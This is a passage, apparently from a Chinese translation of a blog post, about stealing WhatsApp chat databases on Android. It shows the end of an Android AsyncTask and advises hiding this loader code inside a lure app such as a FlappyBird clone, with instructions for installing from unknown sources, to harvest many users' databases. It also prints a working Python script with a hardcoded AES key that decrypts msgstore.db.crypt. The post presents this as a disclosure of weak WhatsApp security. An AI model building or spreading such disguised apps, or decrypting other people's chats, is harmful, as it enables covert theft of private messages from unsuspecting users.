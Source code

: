     		//Update the progress
    		@Override
    		protected void onProgressUpdate(Integer... values)
    		{
    			//set the current progress of the progress dialog
    			progressDialog.setProgress(values[0]);
    		}
    
    		//after executing the code in the thread
    		@Override
    		protected void onPostExecute(Void result)
    		{
    			//close the progress dialog
    			progressDialog.dismiss();
    			//initialize the View
    			setContentView(R.layout.activity_main);
    		}
    
    	}
    }


在载入界面做魔法，你也可以把这块代码增加到一个真正的应用程序，而不是你看到的Hello World文字。把它和[FlappyBird](http://en.wikipedia.org/wiki/Flappy_Bird)之类的东东以及如何从未知源安装应用程序的说明文字联合在一起，你能够收获大量的数据库。

WhatsApp数据库是SQLite3数据库，它能够被[转换成](http://smallbusiness.chron.com/convert-sqlite-excel-40798.html)更容易访问的Excel格式。随后WhatsApp将用encryption加密数据库，因此它就不能被[SQLite](http://www.sqlite.org/)打开了。但是我们借助一个简单的python脚本就能轻松解密该数据库。这个脚本把加密后的数据库转换成完全的SQLite3数据库（从[WhatsApp Xtract](http://forum.xda-developers.com/showthread.php?t=1583021)获取key）。

    
    
    #!/usr/bin/env python
    
    import sys
    from Crypto.Cipher import AES
    
    try:
        wafile=sys.argv[1]
    except:
        print "Usage: %s <msgstore.db.crypt>" % __file__
        sys.exit(1)
    
    key = "346a23652a46392b4d73257c67317e352e3372482177652c".decode('hex')
    cipher = AES.new(key,1)
    open('msgstore.db',"wb").write(cipher.decrypt(open(wafile,"rb").read()))


最终，我们能够得出结论：每个应用程序都能够读取WhatsApp数据库，还可能从加密后的数据库读取聊天记录。Facebook不需要为了读取人们的聊天记录而收购WhatsApp。

原文地址：[http://bas.bosschert.nl/steal-whatsapp-database/](http://bas.bosschert.nl/steal-whatsapp-database/)
